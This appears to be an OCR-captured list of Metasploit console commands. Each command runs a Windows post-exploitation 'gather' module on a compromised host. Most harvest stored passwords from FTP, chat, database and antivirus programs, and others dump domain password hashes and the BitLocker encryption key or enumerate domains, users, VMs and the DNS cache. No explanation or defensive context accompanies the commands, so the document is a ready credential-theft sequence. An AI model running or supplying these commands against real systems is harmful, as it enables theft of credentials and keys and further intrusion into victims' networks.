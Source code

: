 run post/windows/gather/credentials/wsftp_client

run post/windows/gather/avast_memory_dump

run post/windows/gather/credentials/xshell_xftp_password

run post/windows/gather/bitlocker_fvek

run post/windows/gather/dnscache_dump

run post/windows/gather/credentials/aim

run post/windows/gather/credentials/avira_password

run post/windows/gather/credentials/bulletproof_ftp

run post/windows/gather/credentials/comodo

run post/windows/gather/credentials/coolnovo

run post/windows/gather/credentials/coreftp

run post/windows/gather/credentials/digsby

run post/windows/gather/credentials/domain_hashdump

run post/windows/gather/credentials/dynazip_log

run post/windows/gather/credentials/dyndns

run post/windows/gather/credentials/enum_cred_store

run post/windows/gather/enum_db

run post/windows/gather/credentials/enum_picasa_pwds

run post/windows/gather/credentials/epo_sql

run post/windows/gather/credentials/filezilla_server

run post/windows/gather/credentials/flashfxp

run post/windows/gather/credentials/flock

run post/windows/gather/enum_domain_users

run post/windows/gather/credentials/ftpnavigator

run post/windows/gather/enum_domains

run post/windows/gather/credentials/ftpx

run post/windows/gather/enum_emet

run post/windows/gather/credentials/gadugadu


run post/windows/gather/enum_hostfile

run post/windows/gather/credentials/heidisql

run post/windows/gather/enum_hyperv_vms

run post/windows/gather/credentials/icq

run post/windows/gather/enum_ie
